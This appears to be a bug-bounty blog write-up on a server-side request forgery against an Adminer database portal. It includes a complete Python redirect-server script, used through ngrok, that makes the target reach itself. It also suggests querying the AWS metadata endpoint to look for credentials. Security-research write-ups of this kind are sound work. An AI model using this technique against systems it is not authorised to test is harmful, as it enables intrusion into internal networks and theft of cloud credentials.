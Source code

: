 ```yaml
---
title: Adminer SSRF in the wild
tags:
  - Bug Bounty
---
```



The other day I came across an Adminer portal while doing some subdomain enumerations in a bug bounty program.


![portal.png](https://ptyhokkaido.github.io/assets/images/adminer-ssrf-portal.png)


> What is Adminer?

>Adminer (formerly phpMinAdmin) is a full-featured database management tool written in PHP. Conversely to [phpMyAdmin], it consists of a single file ready to deploy to the target >server. Adminer is available for MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Elasticsearch, MongoDB and others via plugin.


Took me few minutes of googling to know that the software version running has CVEs assigned, will they be patched on this instance tho? lets give it a try.


## Setting up the enviroment


Now that I think of it I could have done it with help of a collaborator and call it a day but I went for the good old and reliable ngrok, I also had to use a python script so my ngrok would redirect the petition and trick the server into "hitting" itself.


![setup.png](https://ptyhokkaido.github.io/assets/images/adminer-ssrf-setup.png)


Here we've the content of the script.



```cpp
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```




I simply redirected the requests that Im gonna receive on my ngrok to the victim web server, port 443, whichs the Adminer portal itself in this case. If it worked we'd be able to reach the Adminer portal as if we were doing it from localhost.


## Results

After all the setup and putting our ngrok as a Server in the form we obtain the following.

We can appreciate in the output that we indeed reached the portal from inside, giving us access to internal services such as the "DEV version..".

Not only that we could use this to scan the internal network, search for some internal APIs and escalate the impact, maybe even just check for AWS credentials trying to reach http://169.254.169.254/latest/meta-data/instance-id if the victim had the service hosted on Amazon.

![localhost.png](https://ptyhokkaido.github.io/assets/images/adminer-ssrf-localhost.png)